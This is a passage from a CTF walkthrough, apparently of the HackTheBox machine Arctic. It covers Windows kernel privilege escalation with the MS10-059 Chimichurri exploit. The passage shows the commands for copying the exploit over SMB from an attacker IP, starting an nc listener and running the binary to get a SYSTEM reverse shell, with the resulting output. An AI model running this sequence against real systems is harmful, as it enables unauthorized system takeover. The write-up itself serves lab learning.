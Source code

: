     

Looking at those, as I’m not as interested in MSF modules to start, and as IE
is likely to require user interaction, ones to look into are:

  * MS10-047
  * MS10-059
  * MS10-061
  * MS10-073
  * MS11-011
  * MS13-005

### MS10-059

I did some googling around for exploit code and found [this GitHub from
egre55](https://github.com/egre55/windows-kernel-
exploits/tree/master/MS10-059:%20Chimichurri) that included an exploit for
MS10-059. I was particularly drawn to the fact that this binary requires an IP
and port to connect to. Many of the exploits will start a new cmd as SYSTEM,
which is nice if you are standing at the computer, but not so useful from a
remote shell.

I downloaded the binary (while it’s never a great idea to run exes downloaded
directly from the internet, for a CTF environment, I’m willing to run it), and
ran `smbserver.py share .` to share my current directory.

Then in my shell, I copied it to Arctic:

    
    
    C:\ProgramDatap>net use \\10.10.14.47\share
    net use \\10.10.14.47\share
    The command completed successfully.
    
    C:\ProgramData>copy \\10.10.14.47\share\Chimichurri.exe .
    copy \\10.10.14.47\share\Chimichurri.exe .
            1 file(s) copied.
    

Now I start a `nc` listener, and run it:

    
    
    C:\ProgramData>.\Chimichurri.exe 10.10.14.47 443
    .\Chimichurri.exe 10.10.14.47 443
    /Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
    

I get a shell:

    
    
    root@kali# rlwrap nc -nvlp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.11.
    Ncat: Connection from 10.10.10.11:50381.
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    